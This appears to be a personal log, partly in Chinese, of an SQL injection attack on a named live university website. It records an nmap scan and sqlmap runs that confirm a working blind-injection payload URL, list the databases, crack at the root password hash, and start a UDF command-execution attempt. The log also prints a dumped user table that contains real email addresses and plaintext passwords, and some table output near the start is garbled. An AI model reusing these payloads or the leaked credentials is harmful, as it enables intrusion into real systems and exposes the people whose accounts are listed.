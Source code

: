 


sql测试注入 http://www.hustwenhua.net/Institution/Index?ID=18

```bash

```

[17 tables]
+---------------------------------------+
| COLUMNS                               |
| ENGINES                               |
| EVENTS                                |
| FILES                                 |
|
                             |
|
                              |
|
                               |
                                |
| CHARACTER
                        |
| COLLATION
|
| COLLATION
                            |
| COLUMN_PR







                     |
| GLOBAL_ST



                         |
| GLOBAL_VA






                      |
| \n\n\n\n\n\n\n\n\n                    |
| \n\n\n\n\n\n\n\n                      |
| \n\n\n\n\n                            |

```bash
moon@moon-Default-string:~$ nmap www.hustwenhua.net -A
\
Starting Nmap 7.60 ( https://nmap.org ) at 2017-11-27 13:05 CST
Stats: 0:00:00 elapsed; 0 hosts completed (0 up), 0 undergoing Script Pre-Scan
NSE Timing: About 0.00% done
Nmap scan report for www.hustwenhua.net (119.97.235.172)
Host is up (0.0056s latency).
rDNS record for 119.97.235.172: 172.235.97.119.broad.wh.hb.dynamic.163data.com.cn
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-server-header: 
|   Microsoft-HTTPAPI/2.0
|_  Microsoft-IIS/7.5
|_http-title: \xE6\x96\x87\xE5\x8D\x8E\xE5\xAD\xA6\xE9\x99\xA2
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.95 seconds
```

```bash
$ sqlmap -u http://media.hustwenhua.net/index.php/home/index/schoollist/cid/4*.html

        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.1.10#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 14:31:20

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q]
[14:31:22] [INFO] testing connection to the target URL
[14:31:22] [INFO] checking if the target is protected by some kind of WAF/IPS/IDS
[14:31:22] [INFO] testing if the target URL is stable
[14:31:23] [INFO] target URL is stable
[14:31:23] [INFO] testing if URI parameter '#1*' is dynamic
[14:31:23] [WARNING] URI parameter '#1*' does not appear to be dynamic
[14:31:23] [WARNING] heuristic (basic) test shows that URI parameter '#1*' might not be injectable
[14:31:23] [INFO] testing for SQL injection on URI parameter '#1*'
[14:31:23] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:31:24] [INFO] testing 'MySQL >= 5.0 boolean-based blind - Parameter replace'
[14:31:24] [INFO] URI parameter '#1*' appears to be 'MySQL >= 5.0 boolean-based blind - Parameter replace' injectable (with --code=200)
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n]
[14:31:33] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[14:31:33] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[14:31:34] [INFO] checking if the injection point on URI parameter '#1*' is a false positive
URI parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N]
sqlmap identified the following injection point(s) with a total of 45 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: MySQL >= 5.0 boolean-based blind - Parameter replace
    Payload: http://media.hustwenhua.net:80/index.php/home/index/schoollist/cid/(SELECT (CASE WHEN (1468=1468) THEN 1468 ELSE 1468*(SELECT 1468 FROM INFORMATION_SCHEMA.PLUGINS) END)).html
---
[14:31:41] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2008 R2 or 7
web application technology: Microsoft IIS 7.5, ASP.NET
back-end DBMS: MySQL >= 5.0
[14:31:41] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 34 times
[14:31:41] [INFO] fetched data logged to text files under '/home/moon/.sqlmap/output/media.hustwenhua.net'

[*] shutting down at 14:31:41
```
 
 dbs
```bash
moon@moon-Default-string:~/workspace/nodejs-master$ sqlmap -u http://media.hustwenhua.net/index.php/home/index/schoollist/cid/4*.html --dbs
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.1.10#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 14:35:17

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q]
[14:35:19] [INFO] resuming back-end DBMS 'mysql'
[14:35:19] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: MySQL >= 5.0 boolean-based blind - Parameter replace
    Payload: http://media.hustwenhua.net:80/index.php/home/index/schoollist/cid/(SELECT (CASE WHEN (1468=1468) THEN 1468 ELSE 1468*(SELECT 1468 FROM INFORMATION_SCHEMA.PLUGINS) END)).html
---
[14:35:19] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2008 R2 or 7
web application technology: Microsoft IIS 7.5, ASP.NET
back-end DBMS: MySQL >= 5.0
[14:35:19] [INFO] fetching database names
[14:35:19] [INFO] fetching number of databases
[14:35:19] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[14:35:19] [INFO] retrieved: 7
[14:35:20] [INFO] retrieved: information_schema
[14:35:24] [INFO] retrieved: mysql
[14:35:25] [INFO] retrieved: performance_schema
[14:35:30] [INFO] retrieved: pinggu
[14:35:31] [INFO] retrieved: show
[14:35:32] [INFO] retrieved: test
[14:35:33] [INFO] retrieved: wechatvote
available databases [7]:
[*] `show`
[*] information_schema
[*] mysql
[*] performance_schema
[*] pinggu
[*] test
[*] wechatvote

[14:35:36] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 218 times
[14:35:36] [INFO] fetched data logged to text files under '/home/moon/.sqlmap/output/media.hustwenhua.net'
``` 


当前数据库:show
当前用户: root@localhost
所有用户: root@127.0.0.1
密码
数据库表:
Database: show
[22 tables]
+----------------------+
| show_describe        |
| show_describe1       |
| show_describe2       |
| show_describe3       |
| show_describe4       |
| show_lunbo           |
| show_magazine        |
| show_mediaarticle    |
| show_medialanmu      |
| show_musicarticle    |
| show_musiclanmu      |
| show_photoarticle    |
| show_photolanmu      |
| show_user            |
| show_videoarticle    |
| show_videolanmu      |
| show_viewarticle     |
| show_viewlanmu       |
| show_wordarticle     |
| show_wordlanmu       |
| show_xiaoyuanarticle |
| show_xiaoyuanlanmu   |
+----------------------+
用户表字段
Database: show
Table: show_user
[5 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| email    | non-numeric |
| id       | numeric     |
| password | non-numeric |
| status   | numeric     |
| username | non-numeric |
+----------+-------------+

用户表数据
Database: show
Table: show_user
[8 entries]
+-------------------+----+--------------+--------+------------+
| email             | id | password     | status | username   |
+-------------------+----+--------------+--------+------------+
| 123@qq.com        | 1  | Media147@qsx | 0      | dianzishu! |
| 2029954400@qq.com | 5  | 2029954400   | 1      | 外宣         |
| 1778772333@qq.com | 6  | 573411       | 2      | 电视台        |
| 3                 | 7  | ITM2017      | 3      | 新媒体        |
| 4                 | 8  | xinwenbu     | 4      | 新闻部        |
| 1836314582@qq.com | 9  | YDWHSSBX     | 5      | 广播台        |
| 6                 | 10 | 123456       | 6      | 校刊         |
| 7                 | 11 | seyingwenhua | 7      | 摄影部        |
+-------------------+----+--------------+--------+------------+

```bash
moon@moon-Default-string:~/workspace/nodejs-master$ sqlmap -u http://media.hustwenhua.net/index.php/home/index/schoollist/cid/4*.html --passwords
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.1.10#stable}
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 14:45:05

custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q]
[14:45:29] [INFO] resuming back-end DBMS 'mysql'
[14:45:29] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: MySQL >= 5.0 boolean-based blind - Parameter replace
    Payload: http://media.hustwenhua.net:80/index.php/home/index/schoollist/cid/(SELECT (CASE WHEN (1468=1468) THEN 1468 ELSE 1468*(SELECT 1468 FROM INFORMATION_SCHEMA.PLUGINS) END)).html
---
[14:45:29] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2008 R2 or 7
web application technology: Microsoft IIS 7.5, ASP.NET
back-end DBMS: MySQL >= 5.0
[14:45:29] [INFO] fetching database users password hashes
[14:45:29] [INFO] fetching database users
[14:45:29] [INFO] fetching number of database users
[14:45:29] [INFO] resumed: 2
[14:45:29] [INFO] resumed: 'root'@'localhost'
[14:45:29] [INFO] resumed: 'root'@'127.0.0.1'
[14:45:29] [INFO] fetching number of password hashes for user 'root'
[14:45:29] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[14:45:29] [INFO] retrieved: 1
[14:45:29] [INFO] fetching password hashes for user 'root'
[14:45:29] [INFO] retrieved: *A54AE3468F9176BCB38FA02037CDC820BC36DEA5
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N]
do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q]
[14:45:48] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
>
[14:45:50] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N]
[14:45:52] [INFO] starting dictionary-based cracking (mysql_passwd)
[14:45:52] [INFO] starting 4 processes
[14:45:56] [WARNING] no clear password(s) found
database management system users password hashes:
[*] root [1]:
    password hash: *A54AE3468F9176BCB38FA02037CDC820BC36DEA5

[14:45:56] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 183 times
[14:45:56] [INFO] fetched data logged to text files under '/home/moon/.sqlmap/output/media.hustwenhua.net'

[*] shutting down at 14:45:56



[09:07:28] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[09:07:28] [INFO] retrieved: root@localhost
what is the back-end database management system architecture?
[1] 32-bit (default)
[2] 64-bit
> 2
[09:07:48] [INFO] checking if UDF 'sys_eval' already exist
[09:07:48] [INFO] checking if UDF 'sys_exec' already exist
[09:07:48] [INFO] detecting back-end DBMS version from its banner
[09:07:48] [INFO] retrieved: 5.5.54
[09:07:52] [INFO] retrieving MySQL plugin directory absolute path
[09:07:52] [INFO] retrieved: C:\BtSoft\WebSoft\mysql\MySQL5.5\lib\plugin\
[09:08:19] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
[09:08:19] [INFO] retrieved: